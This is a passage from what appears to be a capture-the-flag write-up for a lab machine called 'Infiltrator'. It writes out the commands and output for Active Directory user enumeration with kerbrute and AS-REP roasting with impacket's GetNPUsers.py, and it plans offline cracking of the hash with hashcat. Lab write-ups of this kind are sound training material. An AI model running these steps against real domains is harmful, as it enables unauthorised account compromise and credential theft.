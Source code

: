 We now have a list of the employees name in the `possible_users` file. Using the tool `username-anarchy`, we can generate a list of possible usernames based on the names of the employees.

```bash
username-anarchy --input-file ./possible_users > possible_users_anarchy
```

## Kerberos - LDAP

With a list of possible usernames, we can now try to enumerate valid users on the domain using the tool `kerbrute`.

```bash
kerbrute -d infiltrator.htb --dc 10.10.11.31 userenum ./possible_users_anarchy --downgrade
```

![NON](file-20250604190951832.png)

We can see that `kerbrute` was able to enumerate some valid users on the domain, showing us the pattern of username is in the form of `f.lastname`. 

Besides that, we see that the user `l.clark` has the flag `UF_DONT_REQUIRE_PREAUTH` set, which means that we can use this user to perform `AS-REP Roasting`, which is a technique used to request the `AS-REP` for a user without pre-authentication, allowing us to try to retrieve the NTLM hash of the user by offline cracking. 

Kerbrute was able to get the hash for the user `l.clark`, which we can use to try to crack the password of the user but there were some inconsistencies with the type of the hash we were using with the `hashcat` auto detect, we then tried manually changing the hash to match the `--example-hashes`, but it still didn't work, trying to downgrade the version with `kerbrute` was not successful either. 

![NON](file-20250604191925096.png)

Kerbrute gives an error while trying to downgrade the version, so we tried the `impacket's GetNPUsers.py`

```bash
GetNPUsers.py -usersfile valid_users infiltrator.htb/

Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies

[-] User d.anderson@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.rodriguez@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@infiltrator.htb@INFILTRATOR.HTB:<REDACTED>

```

With this type of hash, we could use `hashcat` to crack the password of the user `l.clark` using the `rockyou` wordlist.

![NON](file-20250604192033500.png)
